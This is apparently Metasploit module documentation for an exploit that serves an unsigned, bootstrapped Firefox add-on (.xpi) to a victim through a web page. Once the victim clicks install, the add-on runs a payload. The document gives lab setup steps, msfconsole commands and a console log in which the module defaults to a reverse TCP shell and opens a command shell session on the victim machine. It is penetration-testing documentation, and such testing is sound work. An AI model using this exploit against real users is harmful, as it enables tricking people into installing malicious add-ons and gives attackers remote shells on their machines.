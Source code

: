 ## Vulnerable Application

Mozilla Firefox before version 41 allowed users to install
unsigned browser extensions from arbitrary web servers.

This module dynamically creates an unsigned .xpi addon file.
The resulting bootstrapped Firefox addon is presented to
the victim via a web page. The victim's Firefox browser
will pop a dialog asking if they trust the addon.

Once the user clicks "install", the addon is installed and
executes the payload with full user permissions. As of Firefox
4, this will work without a restart as the addon is marked to
be "bootstrapped". As the addon will execute the payload after
each Firefox restart, an option can be given to automatically
uninstall the addon once the payload has been executed.

As of Firefox 41, unsigned extensions can still be installed
on Firefox Nightly, Unbranded and Development builds when
configured with `xpinstall.signatures.required` set to `false`.

Note: this module generates legacy extensions which are
supported only in Firefox before version 57.


### Installation

Download an old Developer Edition (version 4 < 57) installer from:

* https://download-origin.cdn.mozilla.net/pub/devedition/releases/

Browse to `about:config` and set `xpinstall.signatures.required` to `false`.

Open Tools -> Options, search for "updates" and select "Never check for updates".


## Verification Steps

1. Start `msfconsole`
1. Do: `use exploit/multi/browser/firefox_xpi_bootstrapped_addon`
1. Do: `set SRVHOST [IP]`
1. Do: `run`

## Options


## Scenarios

### Firefox Developer Edition 56.0b9 on Windows 7 SP1 (x64) with xpinstall.signatures.required disabled

Run the module and load the web server URL in Firefox. Install the extension when prompted.

```
msf post(windows/gather/enum_domains) > use exploit/multi/browser/firefox_xpi_bootstrapped_addon 
[*] No payload configured, defaulting to generic/shell_reverse_tcp
msf exploit(multi/browser/firefox_xpi_bootstrapped_addon) > run
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.200.130:4444 
[*] Using URL: http://192.168.200.130:8080/Oj8qCs
[*] Server started.
msf exploit(multi/browser/firefox_xpi_bootstrapped_addon) > 
[*] 192.168.200.190  firefox_xpi_bootstrapped_addon - Redirecting request.
[*] 192.168.200.190  firefox_xpi_bootstrapped_addon - Sending HTML response.
[*] 192.168.200.190  firefox_xpi_bootstrapped_addon - Sending xpi and waiting for user to click 'accept'...
[*] 192.168.200.190  firefox_xpi_bootstrapped_addon - Sending xpi and waiting for user to click 'accept'...
[*] Command shell session 1 opened (192.168.200.130:4444 -> 192.168.200.190:49861) at 2022-09-04 01:46:40 -0400
```
